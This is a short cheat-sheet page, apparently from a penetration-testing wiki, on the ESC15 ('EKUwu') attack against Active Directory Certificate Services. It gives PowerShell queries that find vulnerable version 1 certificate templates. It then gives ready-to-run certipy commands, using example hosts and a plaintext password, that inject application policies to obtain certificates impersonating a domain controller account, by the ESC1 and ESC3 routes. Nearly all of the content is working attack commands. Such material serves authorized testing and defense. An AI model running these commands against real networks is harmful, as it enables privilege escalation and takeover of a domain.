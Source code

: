 ```yaml
---
description: Inject Application Policies into Version 1 Certificate Templates
---
```


# ESC15 (EKUwu)

- [https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc](https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc)




## Enumerate

Get enabled templates:

```powershell
PS > $enabledTemplates = Get-ADObject -LDAPFilter "(&(objectClass=pKIEnrollmentService))" -SearchBase "CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,$((Get-ADRootDSE).rootDomainNamingContext)" -Properties certificateTemplates | select -ExpandProperty certificateTemplates
```

Get v1 templates with `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` that are enabled:

```powershell
PS > Get-ADObject -Filter 'objectClass -eq "pKICertificateTemplate"' -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,$((Get-ADRootDSE).rootDomainNamingContext)" -Property name,msPKI-Template-Schema-Version,msPKI-Certificate-Name-Flag | ? {$_.'msPKI-Template-Schema-Version' -eq 1 -and ($_.'msPKI-Certificate-Name-Flag' -band 0x00000001)} | ? {$enabledTemplates -contains $_.name}
```




## Exploit



### ESC15 -> ESC1

Abusing **Client Authentication**:

```bash
$ proxychains4 certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -ca CorpCA -target CA01.megacorp.local -target-ip 192.168.1.12 -template VulnTemplate --application-policies '1.3.6.1.5.5.7.3.2' -upn 'DC01$@megacorp.local' -sid <DC01_SID> -ns 192.168.1.11 -dc-ip 192.168.1.11 -dns-tcp
```



### ESC15 -> ESC3

Abusing **Certificate Request Agent**:

```bash
$ proxychains4 certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -ca CorpCA -target CA01.megacorp.local -target-ip 192.168.1.12 -template VulnTemplate --application-policies '1.3.6.1.4.1.311.20.2.1' -ns 192.168.1.11 -dc-ip 192.168.1.11 -dns-tcp
$ proxychains4 certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -pfx snovvcrash.pfx -ca CorpCA -target CA01.megacorp.local -target-ip 192.168.1.12 -template User -on-behalf-of 'MEGACORP\DC01$' -ns 192.168.1.11 -dc-ip 192.168.1.11 -dns-tcp
```
